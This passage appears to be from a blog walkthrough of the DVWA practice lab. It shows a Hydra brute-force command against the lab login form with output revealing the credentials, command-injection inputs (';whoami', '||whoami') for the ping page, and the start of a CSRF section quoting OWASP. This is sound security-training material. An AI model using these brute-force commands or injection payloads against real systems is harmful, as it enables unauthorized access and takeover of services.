 I ran Hydra like this:

```
hydra 192.168.127.128 -L ~/Desktop/users.txt -P ~/Desktop/pass.txt http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=798cbe3ff31159e5a08aae5a407f81cf"

Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-08-09 13:05:32

[DATA] 16 tasks, 1 server, 18 login tries (l:3/p:6), ~1 try per task

[DATA] attacking service http-get-form on port 80

[80][www-form] host: 192.168.127.128   login: admin   password: password

1 of 1 target successfully completed, 1 valid password found

Hydra (http://www.thc.org/thc-hydra) finished at 2014-08-09 13:05:33
```

And we have cracked it!

### Command Execution

[**Overview**](https://www.owasp.org/index.php/Command_Injection)

> Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.

![remote code execution](https://chousensha.github.io/images/dvwa/rce.png "code execution")

On this page we can ping an arbitrary IP address. We can run arbitrary code by typing `;whoami`, which will tell us the server is running as the *www-data* user. The semicolon is a way to stack commands in Linux, so here we use it to end the previous command (which was the ping functionality), and we insert a new command of our choosing to be run by the vulnerable server.

On medium, the same results can be achieved by entering `||whoami` instead.

The difference between the operators is that `;` runs both commands irrespective of the first command’s status, whereas `||` executes the second command only if the previous one failed.

### CSRF

[**Overview**](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29)

> CSRF is an attack which forces an end user to execute unwanted actions on a web application in which he/she is currently authenticated. With a little help of social engineering (like sending a link via email/chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. A successful CSRF exploit can compromise end user data and operation in case of normal user. If the targeted end user is the administrator account, this can compromise the entire web application.
